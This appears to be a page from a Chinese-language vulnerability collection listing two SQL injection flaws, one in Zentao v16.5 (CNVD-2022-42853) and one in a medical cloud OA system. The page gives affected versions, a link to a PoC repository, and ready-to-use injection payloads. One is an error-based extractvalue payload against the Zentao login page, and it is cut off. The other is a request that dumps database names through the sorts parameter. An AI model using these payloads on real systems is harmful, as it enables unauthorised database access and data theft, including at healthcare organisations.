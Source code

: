 

参考链接：

https://planet.vulbox.com/detail/MTA2OTA=的评论区



## 禅道v16.5 SQL注入

**漏洞描述**：

漏洞编号 CNVD-2022-42853

**影响产品**

禅道企业版 6.5

禅道旗舰版 3.0

禅道开源版 16.5

禅道开源版 16.5.beta1



漏洞poc

下载地址： https://github.com/west9b/ZentaoSqli 

url：

/zentao/user-login.html

payload：

```
account=admin%27+and+%28select+extractvalue%281%2Cconcat%280x7e%2C%28
```









## 【无poc】红帆医疗云OA医用版 SQL注入

漏洞等级：中危

漏洞详细：红帆医疗云OA医用版存在前台SQL注入漏洞

漏洞危害：攻击者可以在易受攻击的系统上执行任意 SQL 语句。根据正在使用的后端数据库， SQL 注入漏洞会导致攻击者访问不同级别的数据/系统。在某些情况下，可以读入或写出文件，或者在底层操作系统上执行 shell 命令。



```
/api/switch-value/list?sorts=%5B%7B%22Field%22:%22convert(int,stuff((select%20quotename(name)%20from%20sys.databases%20for%20xml%20path(%27%27),1,0,%27%27))%22%7D%5D&conditions=%5B%5D&_ZQA_ID=4dc296c5c89905a7)
```

参考链接：

